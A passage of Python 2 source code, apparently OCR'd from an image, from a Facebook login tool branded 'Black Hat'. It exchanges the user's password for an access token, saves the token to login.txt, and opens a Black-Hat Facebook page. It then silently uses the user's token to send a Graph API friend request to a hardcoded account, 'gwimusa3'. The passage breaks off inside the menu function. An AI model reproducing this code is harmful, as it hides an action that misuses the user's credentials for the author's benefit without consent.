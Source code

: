 				z=json.loads(r.text)

				unikers = open("login.txt", 'w')

				unikers.write(z['access_token'])

				unikers.close()

				print '\n\x1b[1;97mSuccessfully Logged In'

				os.system('xdg-open https://m.facebook.com/Black-Hat-112764127091856/?ref=bookmarks')

				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])

				menu()

			except requests.exceptions.ConnectionError:

				print"\n\x1b[1;97mThere is no internet connection"

				keluar()

		if 'checkpoint' in url:

			print("\n\x1b[1;31mYour Account is on Checkpoint")

			os.system('rm -rf login.txt')

			time.sleep(1)

			keluar()

		else:

			print("\n\x1b[1;31mPassword/Email is wrong")

			os.system('rm -rf login.txt')

			time.sleep(1)

			login()

def menu():

	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		os.system('clear')

		print"\x1b[1;31mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	try:
